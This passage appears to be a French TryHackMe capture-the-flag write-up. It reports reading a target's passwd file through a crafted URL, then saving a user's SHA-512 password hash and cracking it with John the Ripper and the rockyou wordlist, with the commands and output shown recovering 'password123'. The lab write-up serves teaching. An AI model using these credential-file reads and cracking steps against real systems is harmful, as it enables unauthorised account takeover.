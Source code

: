 ![page](./Task1-06.png)   

Avec notre url on arrive à lire le  fichier passwd.   

On trouve le hash de kamishiro.   

Le hash est : $6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash
```

**what is rize password ?**   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ john hash -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (?)
1g 0:00:00:00 DONE (2021-10-17 09:58) 4.166g/s 6400p/s 6400c/s 6400C/s kucing..mexico1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
tim@kali:~/Bureau/tryhackme/write-up$ john hash --show
?:password123

1 password hash cracked, 0 left
```
